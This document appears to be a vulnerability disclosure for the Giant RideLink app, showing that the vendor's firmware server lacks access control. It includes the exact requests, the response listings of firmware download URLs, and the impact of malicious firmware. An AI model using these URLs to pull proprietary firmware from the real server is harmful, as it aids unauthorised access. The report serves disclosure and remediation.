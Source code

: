 # Vulnerability Report - tw.giant.ridelink- Incorrect Access Control

**Product:** `tw.giant.ridelink` 

**Vendor:** [GIANT MANUFACTURING CO., LTD.](https://www.giant-bicycles.com/global/ridelink-app)

**Version:** 2.0.7

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `tw.giant.ridelink` , developed by **GIANT MANUFACTURING CO., LTD.**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `UPDATE_URL, UPDATE_DEV_URL` Field values in the `UpdateFragment` class provide the necessary URL and other information required for the HTTPS request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003190214911](https://s2.loli.net/2024/10/03/pQHcelA4OJtWPdo.png)

   ![image-20241003190228763](https://s2.loli.net/2024/10/03/GKHUg4VXCDwIJvt.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://www.action-digit.com/ridelink/updateinfo.json HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: www.action-digit.com
   ```

   ```http
   GET https://www.action-digit.com/ridelinkbk/updateinfo.json HTTP/1.1
   User-Agent: Fiddler Everywhere
   Host: www.action-digit.com
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Date: Thu, 03 Oct 2024 11:03:32 GMT
   Server: Apache/2.4.18 (Ubuntu)
   Last-Modified: Tue, 01 Oct 2019 01:45:07 GMT
   ETag: "2ca-593cf808e3063"
   Accept-Ranges: bytes
   Content-Length: 714
   Content-Type: application/json
   
   [{"powerpro2": {"var": "", "url": "https://www.action-digit.com/ridelink/powerpro_app_2_3_7.zip", "md5": "ba6a367e9e6bf762c286179e5ccd404d"}}, {"powerpro1l": {"var": "", "url": "https://www.action-digit.com/ridelink/left_crank_app_2238.zip", "md5": "22a45fd6e2f2121b3c4e0d75fa4e934c"}}, {"corona": {"var": "", "url": "https://www.action-digit.com/ridelink/GiantApp14.zip", "md5": "1fdc7f66d1b413264feda9d2c0622f7e"}}, {"smarttrainer": {"var": "", "url": "https://www.action-digit.com/ridelink/cyclosmart_cps_a411908121.zip", "md5": "8b78b0c63ed3541cb447654a28e68ea4"}}, {"powerpro1r": {"var": "", "url": "https://www.action-digit.com/ridelink/right_crank_app_2238.zip", "md5": "8108cb65e117607f4370493b705869c5"}}]
   ```

   ```http
   HTTP/1.1 200 OK
   Date: Thu, 03 Oct 2024 11:04:31 GMT
   Server: Apache/2.4.18 (Ubuntu)
   Last-Modified: Mon, 30 Sep 2019 06:32:33 GMT
   ETag: "2d4-593bf66a8396a"
   Accept-Ranges: bytes
   Content-Length: 724
   Content-Type: application/json
   
   [{"powerpro2": {"var": "", "url": "https://www.action-digit.com/ridelinkbk/powerpro_app_2_3_7.zip", "md5": "ba6a367e9e6bf762c286179e5ccd404d"}}, {"powerpro1l": {"var": "", "url": "https://www.action-digit.com/ridelinkbk/left_crank_app_2238.zip", "md5": "22a45fd6e2f2121b3c4e0d75fa4e934c"}}, {"corona": {"var": "", "url": "https://www.action-digit.com/ridelinkbk/GiantApp14.zip", "md5": "1fdc7f66d1b413264feda9d2c0622f7e"}}, {"smarttrainer": {"var": "", "url": "https://www.action-digit.com/ridelinkbk/cyclosmart_cps_a411908121.zip", "md5": "8b78b0c63ed3541cb447654a28e68ea4"}}, {"powerpro1r": {"var": "", "url": "https://www.action-digit.com/ridelinkbk/right_crank_app_2238.zip", "md5": "8108cb65e117607f4370493b705869c5"}}]
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.
   ![image-20241003190546459](https://s2.loli.net/2024/10/03/SKrR98i2gOVXZIk.png)

   In total, we successfully downloaded **5 firmware** by exploiting the vulnerability.


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.
* Deprecate the firmware download links used in the old app.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.